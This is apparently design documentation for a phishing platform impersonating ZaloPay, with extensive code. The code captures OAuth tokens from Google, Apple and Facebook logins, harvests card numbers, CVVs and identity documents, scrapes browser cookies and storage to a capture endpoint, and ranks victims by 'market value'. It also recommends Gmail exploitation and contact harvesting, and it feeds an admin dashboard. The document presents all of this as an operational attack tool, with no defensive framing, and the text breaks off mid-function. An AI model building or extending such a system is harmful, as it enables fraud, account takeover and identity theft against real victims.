







# ZaloPay Merchant Phishing Platform - System Workflow Documentation

## Comprehensive System Workflow Analysis

### Executive Workflow Summary
ZaloPay Merchant Phishing Platform hoạt động theo quy trình khép kín từ victim acquisition đến intelligence exploitation, tích hợp 8 tầng xử lý độc lập nhưng đồng bộ để đảm bảo hiệu suất tối ưu và khả năng che giấu cao.

## Phase 1: Victim Acquisition & Initial Contact

### 1.1 Traffic Routing & Proxy Assignment


**Technical Implementation:**
```typescript
class VictimAcquisitionWorkflow {
    async handleInitialRequest(request: Request): Promise<VictimSession> {
        // Step 1: Analyze victim characteristics
        const victimProfile = await this.analyzeRequest(request);
        
        // Step 2: Assign optimal proxy
        const assignedProxy = await this.proxyManager.assignVictimProxy(
            victimProfile.country,
            victimProfile.isp
        );
        
        // Step 3: Generate realistic fingerprint
        const deviceFingerprint = await this.fingerprintEngine.generateProfile(
            victimProfile.country,
            victimProfile.device_type
        );
        
        // Step 4: Create victim session
        const victimSession = await this.createVictimSession(
            victimProfile, assignedProxy, deviceFingerprint
        );
        
        return victimSession;
    }
}
```

### 1.2 Landing Page Presentation & Trust Building
**Workflow Stages:**
1. **Domain Legitimacy Verification**: SSL certificate validation, domain age simulation
2. **Content Personalization**: Geographic và linguistic customization  
3. **Social Proof Integration**: Fake testimonials, business partnerships display
4. **Progressive Disclosure**: Multi-step information revelation để build confidence

**Landing Page Analytics:**
```javascript
class LandingPageAnalytics {
    trackVictimBehavior(sessionId) {
        return {
            time_on_page: this.calculateTimeSpent(),
            scroll_depth: this.measureScrollBehavior(), 
            click_heatmap: this.generateClickMap(),
            form_interaction: this.trackFormEngagement(),
            trust_indicators_viewed: this.trackTrustElements(),
            conversion_probability: this.calculateConversionScore()
        };
    }
    
    optimizeConversionPath(behaviorData) {
        // Dynamic content adjustment based on victim behavior
        if (behaviorData.scroll_depth < 0.3) {
            this.enhanceAboveTheFoldContent();
        }
        
        if (behaviorData.trust_indicators_viewed < 3) {
            this.increaseTestimonialVisibility();
        }
    }
}
```

## Phase 2: Authentication & Credential Capture

### 2.1 OAuth Flow Interception Architecture


**OAuth Token Extraction Engine:**
```typescript
import { PrismaClient } from '@prisma/client';
import { Queue } from 'bull';

class OAuthCaptureEngine {
    private oauthProviders: {
        google: GoogleOAuthCapture;
        apple: AppleOAuthCapture;
        facebook: FacebookOAuthCapture;
    };
    private tokenStorage: EncryptedTokenStorage;
    private prisma: PrismaClient;
    private validationQueue: Queue;

    constructor(prisma: PrismaClient) {
        this.prisma = prisma;
        this.oauthProviders = {
            google: new GoogleOAuthCapture(),
            apple: new AppleOAuthCapture(),
            facebook: new FacebookOAuthCapture()
        };
        this.tokenStorage = new EncryptedTokenStorage();
        this.validationQueue = new Queue('validation', {
            redis: { host: process.env.REDIS_HOST, port: parseInt(process.env.REDIS_PORT || '6379') }
        });
    }

    async processOAuthCallback(provider: string, authorizationCode: string, state: string): Promise<OAuthCallbackResult> {
        /** Process OAuth callback và extract all possible tokens */
        
        try {
            // Exchange authorization code for tokens
            const tokenResponse = await this.oauthProviders[provider as keyof typeof this.oauthProviders].exchangeCode(
                authorizationCode, 
                this.generateCallbackUrl(provider)
            );
            
            // Extract comprehensive token set
            const extractedTokens = {
                access_token: tokenResponse.access_token,
                refresh_token: tokenResponse.refresh_token,
                id_token: tokenResponse.id_token,
                expires_in: tokenResponse.expires_in,
                scope: tokenResponse.scope,
                token_type: tokenResponse.token_type
            };
            
            // Get user profile information
            const userProfile = await this.oauthProviders[provider as keyof typeof this.oauthProviders].getUserProfile(
                extractedTokens.access_token
            );
            
            // Store captured data với encryption
            const victimRecord = await this.storeCapturedData(
                provider, extractedTokens, userProfile, state
            );
            
            // Queue for immediate validation (Bull Queue)
            await this.validationQueue.add('validate-token', { victimId: victimRecord.id });
            
            return {
                victim_record: victimRecord,
                redirect_url: this.generateSuccessRedirect()
            };
            
        } catch (error) {
            await this.logCaptureFailure(provider, error instanceof Error ? error.message : String(error));
            return this.generateErrorResponse();
        }
    }

    async storeCapturedData(provider: string, tokens: TokenSet, profile: UserProfile, sessionState: SessionState): Promise<Victim> {
        /** Store captured OAuth data với comprehensive metadata */
        
        const victimData = {
            capture_timestamp: new Date(),
            oauth_provider: provider,
            tokens: await this.tokenStorage.encryptTokens(tokens),
            profile: {
                email: profile.email,
                name: profile.name,
                verified_email: profile.verified_email,
                picture: profile.picture,
                google_id: provider === 'google' ? profile.id : null
            },
            session_metadata: {
                user_agent: sessionState.user_agent,
                ip_address: sessionState.ip_address,
                proxy_used: sessionState.assigned_proxy,
                fingerprint: sessionState.device_fingerprint,
                referrer: sessionState.referrer,
                campaign_attribution: sessionState.campaign_id
            },
            capture_status: 'pending_validation'
        };
        
        // Store in database (PostgreSQL via Prisma)
        const victim = await this.prisma.victim.create({
            data: {
                email: victimData.profile.email,
                capture_timestamp: victimData.capture_timestamp,
                capture_method: `oauth_${victimData.oauth_provider}`,
                capture_source: victimData.session_metadata.campaign_attribution || null,
                session_data: victimData.session_metadata,
                device_fingerprint: victimData.session_metadata.fingerprint || {},
                validation: { status: 'pending_validation' }
            }
        });
        
        // Store OAuth tokens in separate table
        if (victimData.tokens) {
            await this.prisma.oauthToken.create({
                data: {
                    victim_id: victim.id,
                    provider: victimData.oauth_provider,
                    token_data: victimData.tokens,
                    user_profile: victimData.profile,
                    provider_metadata: { scopes: tokens.scope || [] },
                    issued_at: new Date(),
                    expires_at: new Date(Date.now() + (tokens.expires_in || 3600) * 1000)
                }
            });
        }
        
        // Fetch complete victim record
        const victimRecord = await this.prisma.victim.findUnique({
            where: { id: victim.id },
            include: { oauth_tokens: true }
        });
        
        if (!victimRecord) {
            throw new Error(`Failed to retrieve victim record ${victim.id}`);
        }
        
        return victimRecord;
    }
    
    async processRegistrationFormData(formData: FormData, files: Express.Multer.File[]): Promise<ProcessResult> {
        /** Process registration form data including card information and identity verification */
        
        // Extract card information (if provided)
        let cardInfo: CardInformation | null = null;
        if (formData.card_type) {
            // Encrypt card information before storage
            cardInfo = {
                card_type: formData.card_type,
                card_number: await this.encryptCardData(formData.card_number || ''),
                card_holder_name: await this.encryptCardData(formData.card_holder_name || ''),
                expiry_date: await this.encryptCardData(formData.card_expiry || ''),
                cvv: await this.encryptCardData(formData.card_cvv || '')  // Note: CVV should not be stored long-term
            };
        }
        
        // Process identity verification files
        const identityVerification: IdentityVerification = {
            verification_status: 'pending',
            transaction_history_files: []
        };
        
        // Save card image
        const cardImageFile = files.find(f => f.fieldname === 'card_image');
        if (cardImageFile) {
            const cardImagePath = await this.saveVerificationFile(
                cardImageFile, 
                'card_image',
                formData.victim_id
            );
            identityVerification.card_image_file_path = cardImagePath;
            identityVerification.card_image_uploaded_at = new Date().toISOString();
        }
        
        // Save transaction history files
        const transactionFiles = files.filter(f => f.fieldname === 'transaction_history');
        for (let idx = 0; idx < transactionFiles.length; idx++) {
            const file = transactionFiles[idx];
            const filePath = await this.saveVerificationFile(
                file,
                `transaction_history_${idx}`,
                formData.victim_id
            );
            identityVerification.transaction_history_files.push({
                file_path: filePath,
                file_name: file.originalname,
                file_size_bytes: file.size,
                uploaded_at: new Date().toISOString()
            });
        }
        
        // Update victim record with card information and identity verification
        await this.prisma.victim.update({
            where: { id: formData.victim_id },
            data: {
                card_information: cardInfo || {},
                identity_verification: identityVerification,
                updated_at: new Date()
            }
        });
        
        return {
            card_info_stored: !!cardInfo,
            identity_verification_stored: true,
            files_saved: identityVerification.transaction_history_files.length + (identityVerification.card_image_file_path ? 1 : 0)
        };
    }

    async encryptCardData(plaintext: string): Promise<string | null> {
        /** Encrypt card data using AES-256-GCM */
        if (!plaintext) {
            return null;
        }
        
        const encryptionKey = process.env.CARD_ENCRYPTION_KEY;
        if (!encryptionKey) {
            throw new Error("CARD_ENCRYPTION_KEY not set in environment");
        }
        
        // Use Node.js crypto module for AES-256-GCM encryption
        const crypto = require('crypto');
        const key = Buffer.from(encryptionKey.slice(0, 32), 'utf-8'); // 32 bytes for AES-256
        const nonce = crypto.randomBytes(12); // 12 bytes nonce for GCM
        const cipher = crypto.createCipheriv('aes-256-gcm', key, nonce);
        
        const encrypted = Buffer.concat([
            cipher.update(plaintext, 'utf-8'),
            cipher.final()
        ]);
        const tag = cipher.getAuthTag();
        
        return {
            encrypted_value: Buffer.concat([encrypted, tag]).toString('base64'),
            nonce: nonce.toString('base64'),
            encryption_method: 'AES-256-GCM'
        };
    }

    async saveVerificationFile(file: Express.Multer.File, fileType: string, victimId: string): Promise<string> {
        /** Save identity verification file to secure storage */
        const fs = require('fs').promises;
        const path = require('path');
        
        // Create secure storage directory
        const storageDir = path.join('/secure/storage/identity');
        await fs.mkdir(storageDir, { recursive: true });
        
        // Generate secure filename
        const fileExtension = path.extname(file.originalname);
        const timestamp = new Date().toISOString().replace(/[-:]/g, '').split('.')[0].replace('T', '_');
        const secureFilename = `${fileType}_${victimId}_${timestamp}${fileExtension}`;
        const filePath = path.join(storageDir, secureFilename);
        
        // Save file
        await fs.writeFile(filePath, file.buffer);
        
        return filePath;
    }
}
```

### 2.2 Session Hijacking & Cookie Capture
**Advanced Session Capture:**
```javascript
class SessionCaptureEngine {
    constructor() {
        this.capturePoints = [
            'document.cookie',
            'localStorage', 
            'sessionStorage',
            'indexedDB',
            'webSQL'
        ];
    }
    
    async captureSessionData() {
        const sessionData = {
            cookies: await this.extractAllCookies(),
            localStorage: await this.extractLocalStorage(),
            sessionStorage: await this.extractSessionStorage(),
            browserStorage: await this.extractBrowserStorage(),
            authTokens: await this.extractAuthTokens(),
            browserFingerprint: await this.generateBrowserFingerprint()
        };
        
        // Send to capture endpoint
        await fetch('/api/capture/session', {
            method: 'POST',
            body: JSON.stringify(sessionData),
            credentials: 'include'
        });
        
        return sessionData;
    }
    
    async extractAllCookies() {
        const cookies = {};
        document.cookie.split(';').forEach(cookie => {
            const [name, value] = cookie.trim().split('=');
            cookies[name] = {
                value: value,
                domain: window.location.hostname,
                path: '/',
                secure: window.location.protocol === 'https:',
                httpOnly: false // Client-side accessible
            };
        });
        
        // Also attempt to extract HttpOnly cookies via exploitation
        try {
            const httpOnlyCookies = await this.extractHttpOnlyCookies();
            Object.assign(cookies, httpOnlyCookies);
        } catch (e) {
            console.log('HttpOnly cookie extraction failed');
        }
        
        return cookies;
    }
}
```

## Phase 3: Credential Validation & Intelligence Gathering

### 3.1 Automated Credential Validation Pipeline


**Comprehensive Validation Engine:**
```typescript
import { PrismaClient } from '@prisma/client';
import { Queue } from 'bull';

class CredentialValidationPipeline {
    private validationModules: {
        oauth_validation: OAuthTokenValidator;
        profile_enrichment: ProfileEnrichmentEngine;
        business_intelligence: BusinessIntelligenceAnalyzer;
        market_classification: MarketValueClassifier;
        security_assessment: SecurityPostureAnalyzer;
    };
    private prisma: PrismaClient;
    private notificationSystem: NotificationSystem;

    constructor(prisma: PrismaClient) {
        this.prisma = prisma;
        this.validationModules = {
            oauth_validation: new OAuthTokenValidator(prisma),
            profile_enrichment: new ProfileEnrichmentEngine(prisma),
            business_intelligence: new BusinessIntelligenceAnalyzer(prisma),
            market_classification: new MarketValueClassifier(prisma),
            security_assessment: new SecurityPostureAnalyzer(prisma)
        };
        this.notificationSystem = new NotificationSystem(prisma);
    }

    async processValidationQueue(): Promise<void> {
        /** Main validation pipeline processor */
        while (true) {
            try {
                // Get next victim for validation
                const pendingVictim = await this.getNextPendingValidation();
                if (!pendingVictim) {
                    await new Promise(resolve => setTimeout(resolve, 30000)); // Wait for new captures
                    continue;
                }
                
                // Execute comprehensive validation
                const validationResults = await this.validateVictimComprehensive(pendingVictim);
                
                // Update victim record
                await this.updateVictimValidationResults(
                    pendingVictim.id, 
                    validationResults
                );
                
                // Notify admin if high-value target
                if (validationResults.market_value === 'high') {
                    await this.notificationSystem.alertHighValueTarget(
                        pendingVictim, validationResults
                    );
                }
                
            } catch (error) {
                console.error('Validation pipeline error:', error);
                await new Promise(resolve => setTimeout(resolve, 60000)); // Backoff on error
            }
        }
    }

    async validateVictimComprehensive(victim: Victim): Promise<ValidationResults> {
        /** Execute comprehensive victim validation */
        
        const validationResults: ValidationResults = {
            timestamp: new Date(),
            oauth_validation: {},
            profile_data: {},
            business_intelligence: {},
            security_assessment: {},
            market_classification: {},
            recommendations: []
        };
        
        // 1. OAuth Token Validation
        if (victim.oauth_tokens && victim.oauth_tokens.length > 0) {
            const oauthResults = await this.validationModules.oauth_validation.validate(
                victim.oauth_tokens
            );
            validationResults.oauth_validation = oauthResults;
            
            // 2. Profile Enrichment
            if (oauthResults.valid) {
                const profileData = await this.validationModules.profile_enrichment.enrich(
                    victim.oauth_tokens, oauthResults
                );
                validationResults.profile_data = profileData;
                
                // 3. Business Intelligence Analysis
                const businessIntel = await this.validationModules.business_intelligence.analyze(
                    validationResults.profile_data
                );
                validationResults.business_intelligence = businessIntel;
            }
        }
        
        // 4. Security Posture Assessment
        const securityAssessment = await this.validationModules.security_assessment.assess(
            victim, validationResults
        );
        validationResults.security_assessment = securityAssessment;
        
        // 5. Market Value Classification
        const marketClassification = await this.validationModules.market_classification.classify(
            validationResults
        );
        validationResults.market_classification = marketClassification;
        
        // 6. Generate exploitation recommendations
        validationResults.recommendations = await this.generateExploitationRecommendations(
            validationResults
        );
        
        return validationResults;
    }

    async generateExploitationRecommendations(validationResults: ValidationResults): Promise<Recommendation[]> {
        /** Generate actionable exploitation recommendations */
        
        const recommendations: Recommendation[] = [];
        
        // Gmail exploitation recommendations
        if (validationResults.oauth_validation.gmail_access) {
            recommendations.push({
                type: 'gmail_exploitation',
                priority: 'high',
                description: 'Full Gmail access available - extract emails, contacts, attachments',
                estimated_value: validationResults.market_classification.estimated_value,
                recommended_actions: [
                    'extract_business_emails',
                    'harvest_contact_database', 
                    'download_sensitive_attachments',
                    'analyze_email_patterns'
                ]
            });
        }
        
        // Business intelligence recommendations
        if (validationResults.business_intelligence.business_account) {
            recommendations.push({
                type: 'business_intelligence',
                priority: 'high', 
                description: 'Business account detected - high-value target for corporate intelligence',
                recommended_actions: [
                    'extract_corporate_contacts',
                    'identify_key_executives',
                    'map_business_relationships',
                    'analyze_financial_communications'
                ]
            });
        }
        
        // Social engineering recommendations
        if (validationResults.security_assessment.social_engineering_vulnerability > 0.7) {
            recommendations.push({
                type: 'social_engineering',
                priority: 'medium',
                description: 'High social engineering vulnerability - suitable for advanced campaigns',
                recommended_actions: [
                    'credential_harvesting_expansion',
                    'phishing_campaign_expansion'
                ]
            });
        }
        
        return recommendations;
    }
}
```

### 3.2 Business Intelligence Analysis Engine
**Advanced Profile Analysis:**
```typescript
import { PrismaClient } from '@prisma/client';

class BusinessIntelligenceAnalyzer {
    private analysisModules: {
        email_analysis: EmailDomainAnalyzer;
        contact_analysis: ContactNetworkAnalyzer;
        content_analysis: EmailContentAnalyzer;
        relationship_mapping: RelationshipMapper;
        company_research: CompanyIntelligenceEngine;
    };
    private prisma: PrismaClient;

    constructor(prisma: PrismaClient) {
        this.prisma = prisma;
        this.analysisModules = {
            email_analysis: new EmailDomainAnalyzer(prisma),
            contact_analysis: new ContactNetworkAnalyzer(prisma),
            content_analysis: new EmailContentAnalyzer(prisma),
            relationship_mapping: new RelationshipMapper(prisma),
            company_research: new CompanyIntelligenceEngine(prisma)
        };
    }

    async analyzeBusinessProfile(profileData: ProfileData): Promise<BusinessIntelligenceResults> {
        /** Comprehensive business intelligence analysis */
        
        const analysisResults: BusinessIntelligenceResults = {
            account_classification: 'personal',  // personal, business, enterprise
            business_indicators: [],
            company_information: {},
            executive_level: 0,  // 0-10 scale
            network_value: 0,    // 0-10 scale  
            intelligence_opportunities: []
        };
        
        // Analyze email domain
        const emailAnalysis = await this.analysisModules.email_analysis.analyze(
            profileData.email || ''
        );
        
        if (emailAnalysis.business_domain) {
            analysisResults.account_classification = 'business';
            analysisResults.business_indicators.push(...emailAnalysis.indicators);
            
            // Deep company research
            const companyResearch = await this.analysisModules.company_research.research(
                emailAnalysis.domain
            );
            analysisResults.company_information = companyResearch;
        }
        
        // Analyze contact network if available
        if (profileData.contacts) {
            const contactAnalysis = await this.analysisModules.contact_analysis.analyze(
                profileData.contacts
            );
            
            analysisResults.network_value = contactAnalysis.network_value_score;
            analysisResults.executive_level = contactAnalysis.executive_level_score;
        }
        
        // Content analysis from emails
        if (profileData.email_content) {
            const contentAnalysis = await this.analysisModules.content_analysis.analyze(
                profileData.email_content
            );
            
            analysisResults.intelligence_opportunities.push(
                ...contentAnalysis.opportunities
            );
        }
        
        // Relationship mapping
        const relationshipMap = await this.analysisModules.relationship_mapping.map(
            profileData
        );
        analysisResults.relationship_network = relationshipMap;
        
        return analysisResults;
    }
}
```

## Phase 4: Admin Dashboard & Management Interface

### 4.1 Real-Time Dashboard Architecture


**Dashboard Data Pipeline:**
```typescript
import { PrismaClient } from '@prisma/client';
import { Server } from 'socket.io';

class AdminDashboardSystem {
    private socketManager: SocketIOManager;
    private analyticsEngine: DashboardAnalyticsEngine;
    private permissionEngine: AdminPermissionEngine;
    private realTimeUpdater: RealTimeDataUpdater;
    private prisma: PrismaClient;

    constructor(prisma: PrismaClient, io: Server) {
        this.prisma = prisma;
        this.socketManager = new SocketIOManager(io);
        this.analyticsEngine = new DashboardAnalyticsEngine(prisma);
        this.permissionEngine = new AdminPermissionEngine(prisma);
        this.realTimeUpdater = new RealTimeDataUpdater(io);
    }

    async initializeAdminSession(adminCredentials: AdminCredentials): Promise<AdminSessionResult> {
        /** Initialize secure admin dashboard session */
        
        // Multi-factor authentication
        const mfaResult = await this.verifyAdminMFA(adminCredentials);
        if (!mfaResult.success) {
            throw new Error("MFA verification failed");
        }
        
        // Create secure admin session
        const adminSession = await this.createAdminSession(adminCredentials.user_id);
        
        // Generate dashboard data
        const dashboardData = await this.generateDashboardData(adminSession);
        
        // Establish Socket.io connection
        const socketConnection = await this.socketManager.createConnection(
            adminSession.session_id
        );
        
        // Start real-time updates
        await this.startRealTimeUpdates(socketConnection);
        
        return {
            admin_session: adminSession,
            dashboard_data: dashboardData,
            socket_connection: socketConnection
        };
    }

    async generateDashboardData(adminSession: AdminSession): Promise<DashboardStats> {
        /** Generate comprehensive dashboard statistics */
        
        // Check admin permissions
        const accessibleData = await this.permissionEngine.getAccessibleData(
            adminSession.admin_id
        );
        
        // Gather statistics
        const dashboardStats: DashboardStats = {
            overview_metrics: await this.getOverviewMetrics(accessibleData),
            victim_analytics: await this.getVictimAnalytics(accessibleData),
            campaign_performance: await this.getCampaignPerformance(accessibleData),
            geographic_distribution: await this.getGeographicData(accessibleData),
            time_series_data: await this.getTimeSeriesMetrics(accessibleData),
            high_value_alerts: await this.getHighValueAlerts(accessibleData)
        };
        
        return dashboardStats;
    }

    async getOverviewMetrics(accessibleData: AccessibleData): Promise<OverviewMetrics> {
        /** Calculate overview metrics với real-time data */
        
        // Base metrics (PostgreSQL queries via Prisma)
        const whereClause = this.buildWhereClause(accessibleData.victim_filter);
        
        const totalVictims = await this.prisma.victim.count({
            where: whereClause
        });
        
        const validCredentials = await this.prisma.victim.count({
            where: {
                ...whereClause,
                validation: {
                    path: ['status'],
                    equals: 'validated'
                }
            }
        });
        
        // High-value targets
        const highValueTargets = await this.prisma.victim.count({
            where: {
                ...whereClause,
                validation: {
                    path: ['market_value'],
                    equals: 'high'
                }
            }
        });
        
        // Business accounts
        const businessAccounts = await this.prisma.victim.count({
            where: {
                ...whereClause,
                validation: {
                    path: ['account_type'],
                    equals: 'business'
                }
            }
        });
        
        // Campaign performance
        const campaignWhere = this.buildWhereClause(accessibleData.campaign_filter);
